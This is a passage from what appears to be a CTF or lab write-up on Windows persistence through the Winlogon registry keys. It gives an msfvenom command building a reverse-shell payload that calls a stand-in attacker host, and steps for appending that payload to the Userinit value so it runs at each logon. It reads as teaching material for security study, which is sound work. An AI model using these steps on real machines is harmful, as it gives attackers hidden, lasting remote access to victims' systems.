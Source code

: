 - `Userinit` points to `userinit.exe` binary, which is in charge of **restoring your user profile preferences**.
- `shell` points to the system's shell, which is usually `explorer.exe`.

![](/assets/img/Pasted image 20230108000936.png)

- If we'd replace any of the executables with some reverse shell, we would break the **logon sequence**, which isn't desired.
- Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

##### 1. Create the reverse shell with `msfvenom`:
`$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe`

![](/assets/img/Pasted image 20230108001314.png)

##### 2. Download the payload again to the victim's machine and to `C:\Windows` directory:

![](/assets/img/Pasted image 20230108001546.png)

![](/assets/img/Pasted image 20230108001530.png)

<u>Attacker's server where the victim downloaded the payload from</u>:

![](/assets/img/Pasted image 20230108001637.png)

##### 3. Alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`.

**Note**: The procedure is the same if you used `shell`.

- Using "`Userinit`":

		- Change the binary path of Userinit by adding the absolute path to the reverse shell downloaded a while ago which in this case: `C:\Windows\revshell3.exe`
		- In this case, TWO binaries will get executed:
				- userinit.exe
				- revshell3.exe

![](/assets/img/Pasted image 20230108002131.png)

##### 4. Sign out and in again to trigger the payload then get the flag:
<u>Before</u>:

![](/assets/img/Pasted image 20230108002223.png)

<u>After</u>:

![](/assets/img/Pasted image 20230108002340.png)


### Logon Scripts
